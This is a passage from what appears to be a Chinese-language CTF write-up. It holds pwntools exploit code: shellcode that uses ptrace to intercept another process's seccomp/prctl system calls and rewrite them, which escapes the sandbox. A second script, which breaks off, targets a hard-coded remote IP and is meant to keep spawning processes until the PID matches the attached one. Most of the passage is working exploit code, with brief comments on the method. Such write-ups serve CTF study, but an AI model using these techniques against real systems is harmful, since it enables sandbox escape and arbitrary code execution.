 ```python
 
   cmp r11,0x9D
   je change_9D
 
   jmp continue
'''

# 13D和9D是seccomp相关的系统调用
# 3C和E7好像是exit
# 使用nc 连接两次，产生了两个进程，如果能在第二个进程运行前，通过ptrace截停prctl的调用，改成随便一个无关调用，就可以实现沙盒的绕过
shellcode+='''
change_13D:
    mov qword ptr [r8+0x78],0x20
    mov qword ptr [r8+0x50],0
    mov qword ptr [r8+0x58],0
    mov qword ptr [r8+0x60],0
    mov qword ptr [r8+0x68],0
    mov qword ptr [r8+0x70],0
    jmp END
change_3C:
    mov qword ptr [r8+0x78],0x20
    jmp END
change_E7:
    mov qword ptr [r8+0x78],0x20
    jmp END
change_9D:
    mov qword ptr [r8+80],0
    mov qword ptr [r8+88],0
    mov qword ptr [r8+96],0
    mov qword ptr [r8+104],0
    mov qword ptr [r8+112],0x26
    jmp END
END:
'''


shellcode+=shellcraft.ptrace(13,pid,"rsp") # 写回内存
shellcode+='''
    jmp continue
'''

p.sendline(asm(shellcode))
p.interactive()
```

2：负责启动新进程并发送shellcode，如果创建的进程ID刚好被1.py附加，seccomp失效，则可以正常执行shellcode

这里构造了open、read、write的shellcode，当然execve也是可以的

```python
#-*- coding: utf-8 -*-
from pwn import *
 
#ip = "127.0.0.1"
ip = "47.101.191.23"
 
#r=process('./a.out')
#r = remote('127.0.0.1', 9999)
#r = remote(ip, 9999)
 
context.arch = 'amd64'
 
# 无限重试，直到进程ID为被附加的进程ID
def test():
```